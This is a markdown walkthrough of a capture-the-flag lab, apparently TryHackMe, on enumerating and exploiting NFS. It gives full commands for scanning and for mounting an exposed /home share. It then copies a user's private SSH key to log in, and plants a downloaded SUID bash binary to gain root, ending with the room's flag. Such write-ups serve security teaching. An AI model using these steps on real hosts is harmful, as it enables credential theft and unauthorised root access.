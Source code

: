 # NFS Enumeration & Exploitation Walkthrough

## 🔍 What is Enumeration?

> "Enumeration is a process which establishes an active connection to the target hosts to discover potential attack vectors in the system, and the same can be used for further exploitation of the system."  
> — [Infosec Institute](https://resources.infosecinstitute.com/what-is-enumeration/)

Enumeration is a **crucial phase** in penetration testing, where all valuable information for attacks is uncovered.

---

## 📡 Enumerating NFS

### 🔎 Nmap Scan

Start with an aggressive full-port scan:

```bash
sudo nmap -A -p- -Pn -vv <ip>
```

⏱️ This can be slow; optimize with:

```bash
sudo nmap -sV -p- -Pn -vv --min-rate=1000 <ip>
```

Then focus on likely ports:

```bash
nmap -sV -sT -p 111,2049 --script=rpcinfo <ip> -Pn
```

- **Answer:** 7 open ports (even though 8 were initially seen)

#### 🧩 Which port hosts the service?

- **Port 2049** is for NFS (Network File System).

---

### 🗂️ Listing NFS Shares

```bash
showmount -e <ip>
```

- **Found share:** `/home`

---

### 📦 Mounting the Share

```bash
mkdir /tmp/mount
sudo mount -t nfs <ip>:/home /tmp/mount -nolock
cd /tmp/mount
ls
```

- **Found directory:** `cappucino`

---

## 🔐 SSH Key Discovery

Inside the `cappucino` folder:

```bash
cd cappucino
ls -a
```

- **Found:** `.ssh` directory (private keys reside here)

**Most useful key:**

```bash
cat .ssh/id_rsa
cat .ssh/id_rsa.pub
```

- 🔑 **Key file:** `id_rsa`
- 👤 **User** is extractable from `.pub` file

#### Local Key Setup

```bash
cp id_rsa ~/Downloads/
chmod 600 ~/Downloads/id_rsa
```

#### SSH Login

```bash
ssh -i ~/Downloads/id_rsa cappucino@<ip>
```

- ✅ **Access gained**

---

## 🧨 Exploiting NFS – Gaining Root

The plan: Upload a modified bash binary with **SUID permissions**.

### ⬇️ Download and Prepare Bash

```bash
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash -O ~/Downloads/bash
cp ~/Downloads/bash /tmp/mount/cappucino
cd /tmp/mount/cappucino
```

### 🛡️ Set Permissions

```bash
sudo chown root bash
sudo chmod u+s bash
ls -l bash
```

- ✅ Should show: `-rwsr-sr-x`

---

## 🧑‍💻 Final Exploit

Back in the remote shell:

```bash
ssh -i ~/Downloads/id_rsa cappucino@<ip>
cd ~
./bash -p
```

- 🎉 **Root shell achieved!**

---

## 🏁 Root Flag

```bash
cat /root/root.txt
```

- 🏴 `THM{nfs_got_pwned}`

---
